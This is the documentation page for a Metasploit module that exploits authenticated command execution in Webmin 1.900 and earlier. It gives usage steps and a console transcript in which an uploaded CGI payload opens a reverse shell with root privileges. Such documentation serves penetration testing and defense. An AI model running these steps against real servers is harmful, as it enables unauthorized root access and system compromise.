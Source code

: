 ## Description

This module exploits an arbitrary command execution vulnerability in Webmin 1.900 and lower versions. Any user authorized to the "Upload and Download" module can execute arbitrary commands with root privileges. In addition, if the 'Running Processes' (proc) privilege is set the user can accurately determine which directory to upload to. Webmin application files can be written/overwritten, which allows remote code execution. The module has been tested successfully with Webmin 1.900.

## Vulnerable Application

This module has been tested with [Webmin 1.900](https://sourceforge.net/projects/webadmin/files/webmin/1.900/)

## Options

### GUESSUPLOAD

Use default installation path `/usr/share/webmin/`

## Verification Steps

1. `use exploit/unix/webapp/webmin_upload_exec`
2. `set rhosts <rhost>`
3. `set username <username>`
4. `set password <password>`
5. `exploit`

## Scenarios

### Tested Webmin 1.900 on Ubuntu 18.04 x64

```
msf > use exploit/unix/webapp/webmin_upload_exec
msf exploit(unix/webapp/webmin_upload_exec) > set rhosts 172.22.222.154
rhosts => 172.22.222.154
msf exploit(unix/webapp/webmin_upload_exec) > set username unixuser
username => unixuser
msf exploit(unix/webapp/webmin_upload_exec) > set password unixuser
password => unixuser
msf exploit(unix/webapp/webmin_upload_exec) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[+] Session cookie: 6215747dab393701e0acbb9ac5b7c699
[*] Target URL => https://172.22.222.154:10000
[*] Searching for directory to upload...
[-] Failed to determine webmin share directory
[-] Set GUESSUPLOAD to attempt upload to a default location
[*] Exploit completed, but no session was created.
msf exploit(unix/webapp/webmin_upload_exec) > set guessupload true
guessupload => true
msf exploit(unix/webapp/webmin_upload_exec) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[+] Session cookie: 46cbd354e4532fe55d1a462db128905c
[*] Target URL => https://172.22.222.154:10000
[*] Searching for directory to upload...
[!] Could not determine upload directory. Using /usr/share/webmin/
[+] File gxvgsiji.cgi was successfully uploaded.
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (172.22.222.136:4444 -> 172.22.222.154:38960) at 2019-03-14 13:40:56 -0500
[+] Deleted gxvgsiji.cgi

uname -a 
Linux ubuntu 4.18.0-16-generic #17~18.04.1-Ubuntu SMP Tue Feb 12 13:35:51 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
whoami
root
exit
```
